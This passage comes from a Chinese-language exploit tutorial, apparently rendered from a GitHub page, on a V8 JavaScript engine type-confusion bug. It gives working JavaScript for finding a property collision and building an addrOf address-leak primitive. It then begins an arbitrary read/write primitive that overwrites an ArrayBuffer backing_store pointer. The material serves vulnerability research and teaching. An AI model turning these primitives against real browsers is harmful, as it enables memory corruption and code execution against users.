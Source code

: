 ```javascript
				[p1, p2] = [j, -r[j]];
				return;
			}
		}
	}
	
	throw "not found collision ";
}
```

（2）构造addOf原语

找到相对应的属性对p1, p2后，将p1和p2赋值成两个新对象，为后面的类型混淆做准备：

```javascript
p_Values[p1] = {x1:23.33, x2: 33.44};
p_Values[p2] = {y1: obj};
```

此时访问o.p1.x1就是访问o.p2.y1，所以读取o.p1.x1，就可以将obj地址当成浮点数进行泄露。

addOf原语代码如下：

```javascript
function addrOf(obj)
{
	eval(`
		function hax(o){
			o.a;
			this.Object.create(o);
			return o.p${p1}.x1;
		}

	`);
	let p_Values = [];
	p_Values[p1] = {x1:23.33, x2: 33.44};
	p_Values[p2] = {y1: obj};
	
	for(let i=0; i < 10000; i++){
		let objs = makeObj(p_Values);
		let leakAddr = hax(objs);
		if(leakAddr !== 23.33){
			return f2i(leakAddr) - 1;
		}
	}
	throw "addrOf failed!";
}
```

（3）构造任意地址读写原语

通过覆盖ArrayBuffer->backing_store指针来构造任意地址读写原语，同上述相似，o.p1.x2对应着data_buf->backing_store

